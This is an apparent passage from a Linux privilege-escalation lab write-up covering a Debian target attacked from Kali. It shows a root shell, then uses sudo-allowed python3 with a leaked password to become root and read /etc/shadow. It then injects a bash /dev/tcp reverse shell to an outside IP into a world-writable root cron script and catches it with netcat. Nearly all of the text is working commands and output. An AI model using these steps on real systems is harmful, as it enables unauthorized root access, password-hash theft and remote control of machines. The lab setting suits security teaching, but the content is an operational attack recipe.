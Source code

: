 **Root Shell Achievement:**
```bash
root@debian:/home/user1# whoami
root
root@debian:/home/user1# id
uid=0(root) gid=0(root) groups=0(root)
```

### Method 3: Developer User Python Escalation

```bash
user1@debian:~$ su developer
Password: dev123
developer@debian:/home/user1$ sudo -l
```

**Developer Sudo Rights:**
```
User developer may run the following commands on debian:
    (ALL) NOPASSWD: /usr/bin/python3
```

**Python Escalation:**
```bash
developer@debian:~$ sudo python3 -c 'import os; os.system("/bin/bash")'
root@debian:/home/developer# whoami
root
root@debian:/home/developer# cat /etc/shadow | head -n 3
root:$6$rounds=10000$salt$hash:19000:0:99999:7:::
daemon:*:19000:0:99999:7:::
bin:*:19000:0:99999:7:::
```

### Method 4: Cron Job Hijacking - Live Demonstration

```bash
user1@debian:~$ cat /etc/crontab | grep cleanup
*/5 *   * * *   root    /opt/scripts/cleanup.sh
```

**Check Script Permissions:**
```bash
user1@debian:~$ ls -la /opt/scripts/cleanup.sh
-rwxrwxrwx 1 root root 89 Jan 15 09:00 /opt/scripts/cleanup.sh
```

**Inject Reverse Shell:**
```bash
user1@debian:~$ echo "bash -i >& /dev/tcp/192.168.148.99/4444 0>&1" >> /opt/scripts/cleanup.sh
user1@debian:~$ tail -n 2 /opt/scripts/cleanup.sh
echo "Cleanup completed at $(date)" >> /var/log/cleanup.log
bash -i >& /dev/tcp/192.168.148.99/4444 0>&1
```

**On Kali - Catching Root Shell:**
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.148.99] from (UNKNOWN) [192.168.148.100] 45678
root@debian:/# whoami
root
root@debian:/# id
uid=0(root) gid=0(root) groups=0(root)
```

---
